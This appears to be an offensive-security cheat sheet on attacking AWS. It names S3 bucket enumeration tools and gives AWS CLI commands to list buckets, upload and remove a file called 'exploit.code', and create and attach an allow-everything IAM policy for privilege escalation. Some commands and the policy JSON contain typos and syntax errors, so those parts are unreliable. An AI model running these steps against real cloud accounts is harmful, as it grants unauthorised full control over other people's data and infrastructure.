 # Hacking Cloud

### Enumeration

1. LazyS3 --> Enumerate misconfigured S3 buckets
2. S3Scanner --> Another tool to enumerate S3 buckets

Other Tools

1. S3 Inspector
2. S3-buckets-bruteforcer
3. Mass3
4. Bucket Finder
5. s3recon

### Exploitation

In order to exploit the S3 buckets we need to have an active account on AWS and an AWSCLI tool installed.

We need to add the following information.

- AWS Access Key ID
- AWS Secret Access Key
- Default Region Name
- Default Output Format

--> Log into AWS --> Security Credentials --> Access Keys --> Create New Access Keys --> Show Access Keys --> Copy The Keys and Use Them


#### AWS CLI

```
AWS Configure --> Add the required information
```

```
aws s3 ls s3://bucketName
```

```
aws s3 mv exploit.code s3://bucketname
```

```
aws s3 rm s3://bucketname/exploit.code
```

#### Privilige Escalation using IAM Roles

```
nano getmehighprivs.json
```

```
{
	"Version":"Date"
	"Statement": [
		{
			"Effect":"Allow",
			"Action":"*",
			"Resource":"*"
		}
	]
}
```

```
aws iam create-policy --policy-name getmehighprivs --policy-document file://getmehighprivs.json
```

```
aws iam attach-user-policy --user-name batman --policy-am arm:aws:iam::<Account ID>:policy/getmehighprivs
```

```
aws iam list-attached-user-policies --user-name batman
```

```
aws iam list-users
```

```
aws s3api list-buckets --query "Buckets[].Name"
```

```
aws iam list-user-policies
```

```
aws iam list-role-policies
```

```
aws iam list-group-policies
```

```
aws iam create-user
```

